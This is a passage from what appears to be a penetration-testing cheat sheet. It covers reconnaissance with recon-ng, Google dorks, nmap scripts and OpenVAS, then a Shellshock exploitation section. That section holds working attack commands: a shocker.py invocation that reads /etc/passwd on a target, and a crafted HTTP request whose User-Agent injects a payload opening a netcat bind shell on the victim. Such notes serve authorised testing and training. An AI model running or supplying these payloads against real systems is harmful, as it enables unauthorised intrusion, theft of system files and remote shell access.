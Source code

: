 Finds IPs close to the domain and possible new domains

```
recon/hosts/gather/http/web/ip_neighbor
```

Google search

* site:xxx -site:www.xxx
* filetype: look for specific documents, pdf, docx, etc..
* inurl
* intitle
* Others https://www.exploit-db.com/google-hacking-database/

#### &#x20;<a href="#nmap-has-many-vulnerability-scanning-nse-scripts-in-usr-share-nmap-scripts" id="nmap-has-many-vulnerability-scanning-nse-scripts-in-usr-share-nmap-scripts"></a>

#### nmap has many vulnerability scanning NSE scripts in /usr/share/nmap/scripts/ <a href="#nmap-has-many-vulnerability-scanning-nse-scripts-in-usr-share-nmap-scripts" id="nmap-has-many-vulnerability-scanning-nse-scripts-in-usr-share-nmap-scripts"></a>

OpenVAS

* Powerful vulnerability scanner with thousands of scan checks. Setup:

```
openvas-setup; openvas-adduser; gsd
```

### &#x20;<a href="#well-known-exploits" id="well-known-exploits"></a>

### Well known exploits <a href="#well-known-exploits" id="well-known-exploits"></a>

#### &#x20;<a href="#shellshock" id="shellshock"></a>

#### Shellshock <a href="#shellshock" id="shellshock"></a>

The following tool will test it.

```
git clone https://github.com/nccgroup/shocker; cd shocker; ./shocker.py -H $ip  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose;  ./shocker.py -H $ip  --command "/bin/cat /etc/passwd" -c /cgi-bin/admin.cgi --verbose
```

You can also:

```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc $ip 80
```
